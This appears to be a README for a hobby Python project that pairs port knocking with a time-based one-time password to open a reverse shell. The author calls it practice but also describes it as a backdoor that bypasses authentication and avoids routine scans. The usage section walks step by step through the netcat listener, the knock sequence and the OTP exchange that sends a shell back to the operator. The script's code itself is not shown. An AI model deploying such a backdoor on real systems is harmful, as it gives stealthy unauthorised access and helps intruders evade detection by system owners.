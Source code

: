 This code was made with the purpose to practice things that I have studied recently about programming and security:
* socket library -> a socket is an endpoint of a communication between two programs running on a network. Sockets are used to create a connection between a client program and a server program. Python's socket module provides an interface to the Berkeley sockets API.
* Port Knocking -> is a stealth method to externally open ports that, by default, are closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, certain port(s) are open to allow a connection. For its implementation, Pypacker will be used.
* One-time Password (OTP) -> is a string of characters or numbers that authenticates a user for a single login attempt or transaction. An algorithm generates a unique value for each one-time password by factoring in contextual information, like time-based data or previous login events. PyOTP will be used to implement a Time-based One-time Password.
* reverse shell -> A reverse shell is a shell session established on a connection that is initiated from a remote machine.

Since this is an alternative way of accessing a system ignoring authentication methods, this code can be used as a form of backdoor, with the characteristic that no port is left open (only after port knocking), making detection more difficult during routine scans.



Idea:
<imagem>
1,2,3 -> Port Knocking. After connecting to specific ports (default 1337, 1338, 1339) in order and within a timeout between connections (standard 5s), the OTP port will be opened.
4 -> Verify OTP. By default, OTP password is sent to port 1340.
5 -> Return a shell. By default, shell is sent to port 12345.



Usage:
0) Before, make sure you have the necessary libraries installed: 
>>> pip install -r requirements.txt

1) Let's use netcat to listen on a port that will soon receive the shell:
>>> nc -vlp 12345

2) On another terminal configure and execute the script:
Customize the base32 Secret Key:
>>> python -c "import pyotp; print(pyotp.random_base32())"
Replace the base32 Secret Key hardcoded in the script with the newly generated value. You can customize the parameters ports_list, timeout, port_otp and port_reverse_shell in the script.
Execute the script:
>>> sudo python script.py

3) Open one more terminal to perform the Port Knocking:
>>> nc <remote_machine> 1337
>>> nc <remote_machine> 1338
>>> nc <remote_machine> 1339
Of course you can simply run in localhost. Port 1340 will now be open.

4) Getting the current OTP password:
>>> python -c "import pyotp; print(pyotp.TOTP('your_base32_Secret_Key').now())"

5) Send the OTP password to the newly opened port 1340:
>>> echo "<otp_password>" | nc <remote_machine> 1340
Your listening port will receive the remote shell.
